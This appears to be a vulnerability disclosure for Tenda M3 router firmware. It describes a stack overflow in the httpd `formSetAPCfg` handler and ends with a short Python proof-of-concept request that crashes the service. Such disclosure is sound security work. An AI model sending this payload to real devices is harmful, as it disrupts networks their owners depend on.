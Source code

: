 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAPCfg` function, which can be accessed via the URL `goform/setWtpData`.

<img src="img/image-20220527163852472.png" alt="image-20220527163852472" style="zoom:50%;" />

When the POST parameter `op` equals "bat", the program will enter if branch at line 139. The program then gets the POST parameters `policy_type` and `radio_2g`.

<img src="img/image-20220527164120754.png" alt="image-20220527164120754" style="zoom:50%;" />

If `policy_type` is equal to `wl_basic_policy`, program will enter the if branch at line 180. There is a stack overflow in this if branch. 

If `policy_type` is equal to neither `wl_basic_policy` nor `qVLAN_policy`, program will enter the if branch at line 199. There is also a stack overflow in this if branch.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"op": b"bat",
    b"policy_type": b"none",
    b"radio_2g": b"A"*0x400
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setWtpData", data=data, cookies=cookies)
print(res.content)
```

